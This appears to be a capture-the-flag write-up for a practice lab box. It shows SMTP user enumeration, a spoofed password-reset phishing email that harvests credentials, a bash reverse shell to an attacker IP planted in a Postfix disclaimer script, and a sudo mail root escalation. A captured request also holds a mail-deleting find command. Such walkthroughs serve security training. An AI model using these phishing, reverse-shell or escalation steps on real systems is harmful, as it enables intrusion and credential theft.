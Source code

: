 ```yaml
---
title: "Proving grounds Practice: Potfish"
layout: post
date: 2024-05-20 02:00
categories: writeup
---
```


Proving grounds Practice - Potfish CTF writeup.

# NMAP
```text
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp     Postfix smtpd
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: Host:  postfish.off; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp  open  http Apache httpd 2.4.41 ((Ubuntu))
Nothing here...

Create custom wordlist based on the texts in the webpage

```sh
cewl http://postfish.off/team.html -m 5 -w team.txt
```

## 25/tcp  open  smtp Postfix smtpd

Enumerate snmp users

```sh
smtp-user-enum -U team.txt -t 192.168.228.137
######## Scan started at Sat Oct 28 07:50:55 2023 #########
192.168.228.137: Sales exists
192.168.228.137: Legal exists
######## Scan completed at Sat Oct 28 07:51:11 2023 #########
2 results.
```

### Usernames found

Sales
Legal

**Users in the website**

Claire Madison
Mike Ross
Brian Moore
Sarah Lorem

**Common email naming**

claire.madison@postfish.off
mike.ross@postfish.off
brian.moore@postfish.off
sarah.lorem@postfish.off

```shell
naveenj@hackerspace:[08:01]~/proving_grounds/Postfish$ smtp-user-enum -U usr -t postfish.off
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usr
Target count ............. 1
Username count ........... 8
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sat Oct 28 08:01:52 2023 #########
postfish.off: claire.madison@postfish.off exists
postfish.off: sarah.lorem exists
postfish.off: brian.moore exists
postfish.off: mike.ross exists
postfish.off: claire.madison exists
postfish.off: sarah.lorem@postfish.off exists
postfish.off: mike.ross@postfish.off exists
postfish.off: brian.moore@postfish.off exists
######## Scan completed at Sat Oct 28 08:01:54 2023 #########
8 results.

8 queries in 2 seconds (4.0 queries / sec)
```

The scan shows the users exist.

Check email messages using imap protocol by using curl

```sh
curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
```

```shell
naveenj@hackerspace:[08:16]~/proving_grounds/Postfish$ curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
Return-Path: <it@postfish.off>
X-Original-To: sales@postfish.off
Delivered-To: sales@postfish.off
Received: by postfish.off (Postfix, from userid 997)
	id B277B45445; Wed, 31 Mar 2021 13:14:34 +0000 (UTC)
Received: from x (localhost [127.0.0.1])
	by postfish.off (Postfix) with SMTP id 7712145434
	for <sales@postfish.off>; Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
Subject: ERP Registration Reminder
Message-Id: <20210331131139.7712145434@postfish.off>
Date: Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
From: it@postfish.off

Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
```

### Sending email using smtp

```shell
- Connect to port using netcat
nc -nv 192.168.209.137 25

- From address
MAIL FROM: it@postfish.off
250 2.1.0 Ok

- To address
RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok

- Begin data
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: Password reset process
Hi Brian,

Please follow this link to reset your password: http://192.168.45.205

regards,

-End data
.
250 2.0.0 Ok: queued as A6BCB4543F

- Exit
QUIT
221 2.0.0 Bye
```

![img](/assets/images/CTF/Proving_Grounds/Potfish/smtp.png)

Upon sending the link in the email they sent us the new password.

```shell
naveenj@hackerspace:[08:29]~/proving_grounds/Postfish$ nc -lvnp 80
listening on [any] 80 ...


connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 53910
POST / HTTP/1.1
Host: 192.168.45.205
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 207
Content-Type: application/x-www-form-urlencoded

first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
```

### url decoded

```text
first_name=Brian&last_name=Moore&email=brian.moore%postfish.off&username=brian.moore&password=EternaLSunshinE&confifind/var/mail/-typef!-namesales-delete_password=EternaLSunshinE
```

### Credentials
brain.moore:EternaLSunshinE

## Privilege Escalation

Run linpeas.

```sh
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1000(brian.moore) gid=1000(brian.moore) groups=1000(brian.moore),8(mail),997(filter)

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)

╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Oct 28 12:42 /etc/postfix/disclaimer
```

Add reverse shell to the disclaimer script file.

```sh
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.205/443 0>&1;
```

Repeat what we did for initial foothold. So whenever the system receives and sends any emails it will include the disclaimer content from a text file. And this script will be executed.

```shell
naveenj@hackerspace:[09:05]~/proving_grounds/Postfish$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 47838
bash: cannot set terminal process group (31813): Inappropriate ioctl for device
bash: no job control in this shell
filter@postfish:/var/spool/postfix$ sudo -l
sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

### GTFO Bins Exploit

```sh
sudo mail --exec='!/bin/bash'
```

## Exploitation

```shell
filter@postfish:/var/spool/postfix$ sudo mail --exec='!/bin/sh'
sudo mail --exec='!/bin/sh'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

**Root Obtained**

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).